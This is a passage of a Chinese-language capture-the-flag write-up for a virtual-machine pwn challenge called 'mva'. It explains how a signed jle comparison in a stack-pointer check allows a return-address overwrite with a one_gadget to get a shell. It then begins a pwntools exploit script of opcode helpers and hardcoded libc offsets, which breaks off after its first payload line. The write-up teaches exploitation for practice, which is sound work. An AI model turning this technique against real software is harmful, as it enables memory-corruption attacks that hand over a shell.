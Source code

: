 请注意上面的代码片段，这是检查栈指针是否大于100。但是跳转是jle，这表示它是有符号的比较。那也就是说如果栈指针是一个负数，如果看做无符号数的话是一个很大的数，但也能通过检查，这就为我们写入返回地址创造了条件。

因此，大致的步骤就是：

Step 1: 修改栈指针到返回地址处
Step 2: 读取返回地址
Step 3: 计算one_gadget地址
Step 4: 写入返回地址
Step 5: getshell

payload:

```python
from pwn import *

io = process('./mva')
Libc_libc_start_main = 0x23FC0
Libc_one_gadget = 0xE3B31

def get_command(code, op1, op2, op3):
	return p8(code) + p8(op1) + p8(op2) + p8(op3)

def movl(reg, value):
	return get_command(1, reg, value >> 8, value & 0xFF)

def add(dest, add1, add2):
	return get_command(2, dest, add1, add2)

def sub(dest, subee, suber):
	return get_command(3, dest, subee, suber)

def band(dest, and1, and2):
	return get_command(4, dest, and1, and2)

def bor(dest, or1, or2):
	return get_command(5, dest, or1, or2)

def sar(dest, off):
	return get_command(6, dest, off, 0)

def bxor(dest, xor1, xor2):
	return get_command(7, dest, xor1, xor2)

def push(reg, value):
	if reg == 0:
		return get_command(9, reg, 0, 0)
	else:
		return get_command(9, reg, value >> 8, value & 0xFF)

def pop(reg):
	return get_command(10, reg, 0, 0)

def imul(dest, imul1, imul2):
	return get_command(13, dest, imul1, imul2)

def mov(src, dest):
	return get_command(14, src, dest, 0)

def print_top():
	return get_command(15, 0, 0, 0)

# Step 1: get __libc_start_main + 243

payload = b''
payload += movl(0, 0x8000)
```